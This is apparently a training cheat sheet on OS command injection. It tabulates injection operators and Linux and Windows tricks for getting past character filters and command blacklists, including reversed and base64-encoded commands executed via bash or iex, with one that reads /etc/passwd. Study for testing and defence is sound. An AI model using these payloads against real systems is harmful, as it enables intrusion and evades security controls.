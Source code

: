 ## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

---

# Linux

## Filtered Character Bypass

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |
|                         |                                                                                    |

---

## Blacklisted Command Bypass

| Code                                                                                             | Description                         |
| ------------------------------------------------------------------------------------------------ | ----------------------------------- |
| **Character Insertion**                                                                          |                                     |
| `'` or `"`                                                                                       | Total must be even                  |
| `$@` or `\`                                                                                      | Linux only                          |
| **Case Manipulation**                                                                            |                                     |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                                                               | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")`                                                               | Another variation of the technique  |
| **Reversed Commands**                                                                            |                                     |
| `echo 'whoami' \| rev`                                                                           | Reverse a string                    |
| `$(rev<<<'imaohw')`                                                                              | Execute reversed command            |
| **Encoded Commands**                                                                             |                                     |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`                                                 | Encode a string with base64         |
| `bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)` | Execute b64 encoded string          |

---

# Windows

## Filtered Character Bypass

|Code|Description|
|---|---|
|`Get-ChildItem Env:`|Can be used to view all environment variables - (PowerShell)|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`%PROGRAMFILES:~10,-5%`|Will be replaced with a space - (CMD)|
|`$env:PROGRAMFILES[10]`|Will be replaced with a space - (PowerShell)|
|**Other Characters**||
|`%HOMEPATH:~0,-17%`|Will be replaced with `\` - (CMD)|
|`$env:HOMEPATH[0]`|Will be replaced with `\` - (PowerShell)|

---

## Blacklisted Command Bypass

| Code                                                                                                         | Description                              |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion**                                                                                      |                                          |
| `'` or `"` for example w"h"o"a"m"i                                                                           | Total must be even                       |
| `^`<br>                                                                                                      | Windows only (CMD)                       |
| **Case Manipulation**                                                                                        |                                          |
| `WhoAmi`                                                                                                     | Simply send the character with odd cases |
| **Reversed Commands**                                                                                        |                                          |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                         |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                 |
| **Encoded Commands**                                                                                         |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64              |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string               |
### Linux Only
```bash
who$@ami
w\ho\am\i
```

### Windows Only
```cmd-session
C:\htb> who^ami

21y4d
```

> [!Tips]
> 
> It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible